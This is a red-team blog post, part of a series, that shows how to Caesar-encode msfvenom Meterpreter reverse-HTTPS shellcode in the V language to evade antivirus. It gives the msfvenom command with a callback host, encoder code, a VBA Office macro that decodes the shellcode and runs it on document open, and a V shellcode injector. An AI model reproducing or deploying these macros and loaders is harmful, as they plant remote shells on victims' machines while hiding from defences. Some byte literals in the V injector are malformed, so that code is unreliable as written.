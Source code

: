 ```yaml
---
layout: single
title:  "OffensiVe Security with V 4 - Caesar"
date:   2022-08-09 16:55:50 -0500
categories: red-team
tags: vlang windows
permalink: /:categories/:title/

header:
  overlay_image: /images/cloudflare1/banner.png
  overlay_filter: rgba(0, 0, 0, 0.7)
  actions:
     - label: "View Code"
       url: "https://github.com/alexfrancow/offensive-vlang"  
---
```


In the previous part of this series of posts, the [XOR Cipher](https://alexfrancow.github.io/app-development/OffensiVe-Security-with-V-3-XOR/) was detailed, in this part another **cipher technique** with **Caesar encryption** will be investigated in order to mitigate **AV defenses**.

## Caesar Cipher

The **Caesar cipher** was one of the earliest encryption schemes and is very simple. It is categorized as a **substitution cipher** since it substitutes a letter or number by shifting it to the right by the number specified in the key.

```text
Input Output
C -> D
a -> b
e -> f
s -> t
a -> b
r -> s
```

For this, the following code will be used, which shows the encryption method in the **V** language.
First, we'll need to generate a payload, to do so we'll use the following snippet from `msfvenom`.

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.86 LPORT=443 -f csharp
```

Once the payload was generated the output will be similar at the following.

```bash
byte[] buf = new byte[547] {
    0xfc,0xe8,0x8f,0x00,0x00,0x00,0x60,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,
    ..snip..
    0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 };
```

It will be necessary to convert the **csharp** output to **V**, for this we copy each byte *(547)* in the same way and we will group it by square brackets. To get something similar to the following code block.

```bash
buf := [
    byte(0xfc),0xe8,0x8f,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,
    ..snip..
    0x38,0x36,0x00,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 ]
```

The next step will be to implement the **Caesar encryption** algorithm. To do this, iterates over all the characters of the **payload**, exchanging them with a **sum** of **+2** (It could be a sum of any number).
To implement that, the following code was created.
```c
fn main() {
    // Caesar cipher
    mut encoded := buf.clone()
    for i := 0; i < buf.len; i++ {
        encoded[i] = buf[i] + 2 & 0xFF
    }
```

>  We performed a bitwise **AND** *(&)* operation with `0xFF` to keep the modified value within the 0-255 range (single byte) in case the increased byte value exceeds `0xFF`.

Once we have each byte replaced, it is converted to VBA code. To do this, add the string `buf = Array(` at the beginning, a `)` at the end and add a `, _` every 30 iterations. This is necessary so that office can read the payload.
The following code shows the theory.
```c
    // To VBA
    mut v := ''
    for i := 0; i < encoded.len; i++ {
        if i == 0 {
            v += 'buf = Array(${encoded[i]}, '
        }
        else if i  == encoded.len - 1 {
            v += '${encoded[i]})'
        }
        else {
            if i % 30 == 0 {
	              v += '${encoded[i]}, _ \n'
	      }
            else {
                v += '${encoded[i]}, '
            }
        }
    }

    println(v)
}
```

It is also possible to convert it to **Hexadecimal**.
```c
    // To Hex
    mut h := ''
    for i := 0; i < encoded.len; i++ {
        h += '0x${int(encoded[i]):x}, '
    }
```

Or to a **String**.
```c
    // To string
    mut s := ''
    for i := 0; i < encoded.len; i++ {
        s += encoded[i].ascii_str()
    }
```

The output of the code will be the payload in **VBA** format, which we can import into an **Office macro** as shown in the following example.
Here it is necessary to subtract the number of substitutions that we have made when encrypting the payload with **Caesar** *(-2)*.
```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Sub MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    buf = Array(254, 234, 145, 2, 2, 2, 98, 51, 212, 139, 231, 102, 141, 84, 50, 141, 84, 14, 141, 84, 22, 141, 116, 42, 17, 185, 76, 40, 51, 1, 51, _
    ..snip..
    231, 90, 197, 97, 234, 109, 1, 1, 1, 51, 59, 52, 48, 51, 56, 58, 48, 54, 59, 48, 58, 56, 2, 189, 242, 183, 164, 88, 108, 2, _
    85, 1, 215)

    ' Caesar decipher
    For i = 0 To UBound(buf)
        buf(i) = buf(i) - 2
    Next i
    
    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Instead of using an **Office macro**, it is possible to inject a **Hexadecimal shellcode** directly with **V**.

```c
module main
import time

#flag -luser32
#flag -lkernel32

fn C.VirtualAlloc(voidptr, u32, u32, u32) voidptr
fn C.RtlMoveMemory(voidptr, voidptr, u32)
fn C.CreateThread(voidptr, u32, voidptr, voidptr, u32, &u32) voidptr

fn inject(shellcode []byte) bool {
    println('Creating virtualAlloc')
    address_pointer := C.VirtualAlloc(voidptr(0), usize(sizeof(shellcode)), 0x3000, 0x40)

    println('WriteProcessMemory')
    C.RtlMoveMemory(address_pointer, shellcode.data, shellcode.len)

    println('CreateRemoteThread')
    C.CreateThread(voidptr(0), u32(0), voidptr(address_pointer), voidptr(0), 0, &u32(0))
    time.sleep(1 * time.second)
    return true
}

fn main() {
    buf := [
    byte(0xfe), 0xea, 0x971,33, 0x32, 0x30x, 0x6d, 0x79, 0x65, 0xa1, 0xc8, 0x6c, 
    ..snip..
    0x21, 0x50x2, 0x6a, 0x2,]

    // Caesar decipher
    mut shellcode := buf.clone()
    for i := 0; i < buf.len; i++ {
        shellcode[i] = buf[i] - 2
    }
    inject(shellcode)
}
```

It is possible to **build** the above code with:

```bash
v caesar.v
```

### Demo

<iframe width="560" height="315" src="https://www.youtube.com/embed/D6csaUgbVxw" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
